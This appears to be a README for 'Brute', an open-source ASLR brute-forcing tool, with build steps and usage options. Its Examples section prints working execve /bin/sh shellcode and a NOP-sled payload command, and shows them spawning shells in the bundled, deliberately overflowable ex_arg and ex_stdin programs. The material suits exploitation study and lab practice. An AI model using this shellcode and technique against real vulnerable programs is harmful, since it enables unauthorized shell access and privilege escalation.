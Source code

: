 Brute, an ASLR bruteforcer
--------------------------

Brute is a program that bruteforces ASLR.  Name suggestions are appreciated.

Requirements
------------

GCC >= 4.7 or clang >= 3.1 are needed to build the main executable.

The main executable uses the getopt library.  Headers are installed by default
on some (incl. Debian) distributions with the C library headers.

The example programs require 32-bit headers and libraries.  On Debian this is
gcc-multilib, and libc6:i386.

The distribution is build using the CMake buildsystem.  The compilation process
is simple, and an out of source-tree build is recommended:

    $ ls
    brute
    $ mkdir build
    $ cd build
    $ cmake ../brute
    [project configures]
    $ make
    [project builds]
    $ ./brute --help
    [help message - you're all done]

Brief Introduction
------------------

Brute works by creating many processes, feeding them input, and seeing if they
crash.  The input should be shellcode such that if the program does not crash
then it has probably spawned a shell:

    Usage: ./brute [OPTION]... -- [CMD]
    Attempt to brute force [CMD]

    Mandatory arguments for long options are mandatory for short options too.
       -s, --stdin=FILE   Prepend the contents of FILE to each subprocess'
                          standard input stream.
       -h, --help         Display this message.
       -v, --verbose(=N)  Enable verbose logging at level N (N=1 by default).
       -t, --timeout=T    Consider a process live after it has survived for T
                          ms without crashing.
       -n, --numprocs=N   Spawn N subprocesses at a time.

The -- separator between the options for brute and the options for the
command are not necessary if the command takes no arguments, but are
recommended for clarity.

Examples
--------

Two examples are included with this distribution, ex\_stdin and ex\_arg.
ex\_stdin has a stack buffer overflow through standard input, and ex\_arg has
a stack buffer overflow through argv[1].  Examples of an exploit:

    $ SHELLCODE="1\xc0Ph//shh/bin\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x801\xc0@\xcd\x80"
    $ python -c "print '\xf0\xf0\xf0\xff'*100+'\x90'*1024+'$SHELLCODE'" > payload
    $ ./brute -t 100 -- ./ex_arg `cat payload`
    Found live process with pid 23029
    ls
    CMakeCache.txt
    CMakeFiles
    Makefile
    brute
    cmake_install.cmake
    ex_arg
    ex_stdin
    payload
    exit
    $ ./brute -t 100 -s payload -- ./ex_stdin
    Found live process with pid 25225
    ls
    CMakeCache.txt
    CMakeFiles
    Makefile
    brute
    cmake_install.cmake
    ex_arg
    ex_stdin
    payload
    exit
    $

Contributing
------------

Patches are welcome, please see https://github.com/rbmj/cracktools

License
-------

For the time being, this code is under the WTFPL.

Once I get the time to add license statements to the source files it'll
become 3-clause BSD.

